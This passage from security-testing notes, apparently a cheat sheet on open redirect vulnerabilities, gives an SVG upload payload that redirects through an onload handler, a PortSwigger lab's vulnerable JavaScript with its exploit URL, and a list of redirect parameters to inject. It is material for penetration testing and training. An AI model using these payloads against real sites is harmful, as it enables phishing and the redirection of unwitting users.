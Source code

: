     ```
*   **Open Redirect when uploading svg files**

    ```xml
    <code>
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <svg
    onload="window.location='<http://www.google.com>'"
    xmlns="<http://www.w3.org/2000/svg>">
    </svg>
    </code>

    ```
*   [**DOM-based open redirection**](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)

    **Vulnerable code**

    ```jsx
    <a href='#' onclick='returnUrl = /url=(https?:\\/\\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
    ```

    **Exploit**

    ```jsx
    https://<target.com>/post?postId=4&url=https://exploit-0ad70038030eccda80ecd9d801610038.exploit-server.net/
    ```
*   **Common injection parameters**

    ```
    /{payload}
    ?next={payload}
    ?url={payload}
    ?target={payload}
    ?rurl={payload}
    ?dest={payload}
    ?destination={payload}
    ?redir={payload}
    ?redirect_uri={payload}
    ?redirect_url={payload}
    ?redirect={payload}
    /redirect/{payload}
    /cgi-bin/redirect.cgi?{payload}
    /out/{payload}
    /out?{payload}
    ?view={payload}
    /login?to={payload}
    ?image_url={payload}
    ?go={payload}
    ?return={payload}
    ?returnTo={payload}
    ?return_to={payload}
    ?checkout_url={payload}
    ?continue={payload}
    ?return_path={payload}
    success=https://c1h2e1.github.io
    data=https://c1h2e1.github.io
    qurl=https://c1h2e1.github.io
    login=https://c1h2e1.github.io
    logout=https://c1h2e1.github.io
    ext=https://c1h2e1.github.io
    clickurl=https://c1h2e1.github.io
    goto=https://c1h2e1.github.io
    rit_url=https://c1h2e1.github.io
    forward_url=https://c1h2e1.github.io
